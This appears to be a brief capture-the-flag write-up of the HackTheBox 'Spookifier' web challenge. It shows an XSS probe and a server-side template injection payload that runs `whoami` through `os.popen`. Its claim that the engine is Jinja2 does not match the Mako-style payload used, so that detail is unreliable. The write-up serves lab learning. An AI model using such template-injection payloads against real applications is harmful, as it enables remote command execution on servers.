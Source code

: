 ```yaml
---
layout: post
title:  "Spookifier"
date:   2025-03-28 18:30:00 -0400
categories: HTB-challenge web very-easy
tags: HTB CTF writeup SSTI
---
```


### SOLUTION
Firstly, we try XSS to the search bar: `<script>alert(1)</script>`
![](assets/img/htb/spookifier/1.png)

We can see that it responses. But XSS is used for manipulating the user experience, and there is no user here. So we should another payload (SSTI): `${{7*'7'}}`
![](assets/img/htb/spookifier/2.png)

We can see it returns `7777777`, so it is a `JINJA2` type, let try this: `${self.module.cache.util.os.popen('whoami').read()}`
![](assets/img/htb/spookifier/3.png)

We are `root` now, so let find the flag.
![](assets/img/htb/spookifier/4.png)
